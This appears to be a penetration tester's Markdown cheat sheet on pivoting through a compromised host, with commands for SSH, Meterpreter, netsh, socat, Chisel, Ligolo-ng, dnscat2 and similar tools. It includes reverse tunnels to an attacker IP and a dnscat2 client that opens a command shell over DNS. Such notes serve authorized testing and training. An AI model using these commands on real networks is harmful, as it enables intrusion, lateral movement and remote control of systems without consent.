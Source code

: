# Info
- Port Forward: Forward service internal to external (Mainly combined with bindshell or to exfiltrate the inside services)
- Remote/Reverse Port Forward: Forward service external to internal (Mainly combined with reverseshell)
- Dynamic port forward: Attacker can access any internal machines that the pivot can reach (SOCKS Proxy)
- Tunneling: Encapsulating one protocol inside another to bypass firewalls or NAT.
- Lateral Movement/Pivoting:
	- Lateral Movement: Moving within the same network.
	- Pivoting: Accessing other networks by crossing boundaries.
#### Definitions
- `attacker`: Attacker machine (on the external network)
- `pivot`: Pivot machine (has two NICs for external and internal networks, or one NIC but configured to route traffic between them).
- `target`:Target machine (on the internal network)
# Port Forward
#### SSH
- **PortForward Pivot/Target Port**: `ssh -L <attacker_port>:<pivot_internalip-localhost/target_ip>:<pivot_port/target_port> <username>@<pivot_ip>`

#### Meterpreter (Relay traffic)
- **Info:** Ensuring that your session is persistent on the pivot; once you lose it, port forwarding will disappear.
- **PortForward Pivot Port:**  `meterpreter> portfwd add -l <pivot_listenport> -p <pivot_port> -r <pivot_internalip-localhost>`
- **PortForward Target Port**: `meterpreter> portfwd add -l <pivot_listenport> -p <target_port> -r <target_ip>`

#### Netsh (Relay Traffic - Windows only)
- **Info:** High privileges (Administrator or higher) are required, but while it's persistent, it is easy to detect.
	- Use it on The Pivot.
- **PortForward Pivot Port:**  `netsh interface portproxy add v4tov4 listenport=<pivot_listenport> listenaddress=<pivot_externalip> connectport=<pivot_port> connectaddress=<<pivot_internalip/localhost>`
- **PortForward Target Port**: `netsh interface portproxy add v4tov4 listenport=<pivot_listenport> listenaddress=<pivot_externalip> connectport=<target_port> connectaddress=<target_ip>`
#### Socat (Relay traffic  - Linux)
-  **PortForward Pivot Port:** `socat TCP4-LISTEN:<pivot_listenport>,fork TCP4:<pivot_internalip-localhost>:<pivot_port>`
-  **PortForward Target Port:**`socat TCP4-LISTEN:<pivot_listenport>,fork TCP4:<target_ip>:<target_port>`
#### Chisel
- **Info:** Using a server and client, similar to SSH. The server (usually the pivot or attacker) has to open a service port (I will call it `connectport`).
- **PortForward Pivot Port:**
	- Pivot: `chisel server --port <pivot_connectport>`
	- Attacker: `chisel client <pivot_externalip>:<pivot_connectport> <attacker_port>:<pivot_internalip-localhost>:<pivot_port>`
- **PortForward Target Port:**
	- Pivot: `chisel server --port <pivot_connectport>`
	- Attacker: `chisel client <pivot_externalip>:<pivot_connectport> <attacker_port>:<target_ip>:<target_port>`
- **Using Socks**
# Remote/Reverse Port Forward
#### SSH
- `ssh -R <pivot_listenport>:<attacker_ip>:<attacker_port> <username>@<pivot_externalip> -vN`
	- Windows - putty.exe: `plink.exe ssh -R <pivot_listenport>:<attacker_ip>:<attacker_port> <username>@<pivot_externalip> -vN`
#### Meterpreter
- `meterpreter> portfwd add -l <pivot_listenport> -p <attacker_port> -r <attacker_ip>`
#### Netsh
- `netsh interface portproxy add v4tov4 listenport=<pivot_listenport> listenaddress=<pivot_externalip> connectport=<attacker_port> connectaddress=<attacker_ip>`
#### Socat
- `socat TCP4-LISTEN:<pivot_listenport>,fork TCP4:<attacker_ip>:<attacker_port>`
#### Chisel
- Attacker: `chisel server --port <pivot_connectport> --reverse`
- Pivot: `chisel client <pivot_externalip>:<pivot_connectport> R:<attacker_port>:<pivot_internalip>:<pivot_listenport>`

# Dynamic Port Forward
- **Info:** Requires setting up traffic at the session layer using SOCKS on the attacker machine, because the traffic is tunnel-based and only operates at the session layer.
## Settings up Attacker host
##### **Linux:**
- Using `proxychains`
- edit proxychain.conf 
```bash
vim /etc/proxychains.conf

# Create port proxy - if don't use placing # front of the line
socks4 127.0.0.1 <attacker_portproxy>
# Socks5 when using chisel
socks5 127.00.1 <attacker_portproxy> 

# Using proxy by: proxychains <command> [<target_ip>]
```
##### **Windows**
- Using Proxifier![image](https://github.com/user-attachments/assets/37753dc1-9179-433c-9bb0-9aa8e1c60b0d)

##### **Alternative method:**
- **Sshuttle:** python tool, pivot over SSH.
	- `sshuttle -r <username>:<pivot_externalip> <target_iprange>/<subnet> -v`
## Run Dynamic PortForward
#### SSH
- `ssh -D <attacker_portproxy> <username>@<pivot_externalip>`
#### Meterpreter
- `msf6> use auxiliary/server/socks_proxy`
	- `run SRVPORT=<attacker_portproxy> SRVHOST=0.0.0.0 version=<4a/5a>`
- Option 1: `msf6> use post/multi/manage/autoroute`
	- `set SESSION <num>` (this session is pivot session)
	- `run SUBNET=<target_iprange>/<subnet>`
- Option 2: `meterpreter> run autoroute -s <target_iprange>/<subnet>`
#### Chisel
- Pivot: `chisel server -p <pivot_connectport> --socks5`
- Attacker: `chisel client -v <pivot_externalip>:<pivot_connectport> <attacker_ip - localhost>:socks`
#### Ligolo-ng (Without proxyport)
- Attacker: `sudo ip tuntap add user <username> mode tun ligolo && sudo ip link set lingolo up`
	- `./proxy -selfcert -laddr 0.0.0.0:<attacker_connectport>`
		- `ligolo-ng >> session`: list session
			- choose the session.
		- `ligolo-ng >> ifconfig`: list net interface pivot.  
		- `sudo ip route add <target_iprange>/<subnet> dev ligolo`
- Pivot: `.\agent -connect <attacker_ip>:<attaker_port> -ignore-cert`
- **Port Forward and Remote Port Forward:** `listener_add --addr <pivot_externalip>:<pivot_listenport> --to <attacker/target_ip>:<attacker/target_port>`
#### Rpivot
- Attacker `python2.7 server.py --proxy-port <attacker_portproxy> --server-port <attacker_connectport> --server-ip 0.0.0.0`
- `python2.7 client.py --server-ip <attacker_ip> --server-port <attacker_connectport>`
# Tunneling
#### DNScat2
- Attacker: `sudo ruby dnscat2.rb --dnshost=<attacker_ip>,port=53,domain=<domain_name> --no-cache`
	- Copy the secret
- [dns2powershell](https://github.com/lukebaggett/dnscat2-powershell)
- Pivot: `Import-Module .\dnscat2.ps1`
	- `Start-Dnscat2 -DNSserver <attacker_ip> -Domain <domain_name> -PreSharedSecret <secret> -Exec cmd`
#### PTunnel-ng
- Attacker: `sudo ./ptunnel-ng -s`
- Pivot: `sudo ./ptunnel-ng -p <attacker_ip> -lp <pivot_port> -da <target_ip> -dp <target_port>`
#### SocksOverRDP
1. [SocksOverRDP x64 Binaries](https://github.com/nccgroup/SocksOverRDP/releases)
2. [Proxifier Portable Binary](https://www.proxifier.com/download/#win-tab)
- Pivot: `SocksOverRDP-Server.exe`
- Attacker: `Connect RDP Pivot (Experience Modem) -> SocksOverRDP-Client.exe 127.0.0.1 <attacker_portproxy>`
	- OR  load file DLL (Windows): `regsvr32.exe SocksOverRDP-Plugin.dll` (portproxy default 1080)

